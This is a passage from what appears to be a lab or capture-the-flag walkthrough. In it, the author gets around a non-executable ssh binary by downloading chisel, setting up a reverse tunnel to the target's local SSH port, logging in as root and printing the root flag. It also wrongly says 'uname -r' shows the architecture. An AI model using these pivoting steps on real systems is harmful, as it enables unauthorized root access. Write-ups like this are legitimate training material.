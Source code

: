 ``` bash
dumper@dump:~$ ls -lhaF /usr/bin | grep ssh                                         

lrwxrwxrwx  1 root root       3 dic 24  2023 slogin -> ssh

----------  1 root root    715K dic 24  2023 ssh

-rwxr-xr-x  1 root root    335K dic 24  2023 ssh-add*

-rwxr-sr-x  1 root ssh     315K dic 24  2023 ssh-agent*

-rwxr-xr-x  1 root root    1,5K dic 22  2023 ssh-argv0*

-rwxr-xr-x  1 root root     11K oct 17  2018 ssh-copy-id*

-rwxr-xr-x  1 root root    407K dic 24  2023 ssh-keygen*

-rwxr-xr-x  1 root root    411K dic 24  2023 ssh-keyscan*
```

It seems we cannot run bare ssh.

A simple solution would be port forwarding any port on 0.0.0.0 to 127.0.0.1 port 22. This way we should be able to connect to it from our host (in which we can run ssh). But we cant do this SSH pivoting with nc, wed need ncat or socat (which we dont have) so we will need to run chisel.

We check the architecture via ``` uname -r ```, transfer the binary via wget and run a server with:

``` bash 
./chisel server -p 4444 --reverse
```

Now from our attacking machine:

``` bash
chisel client -v 192.168.56.111:4444 1234:127.0.0.1:22
```

Now from the attacker we simply do:

``` bash
ssh root@127.0.0.1 -p 1234
```

And we are root.

``` bash
root@dump:~# cat /root/root.txt
60c60f8e926b65a55bf8bd6239bb616d
```


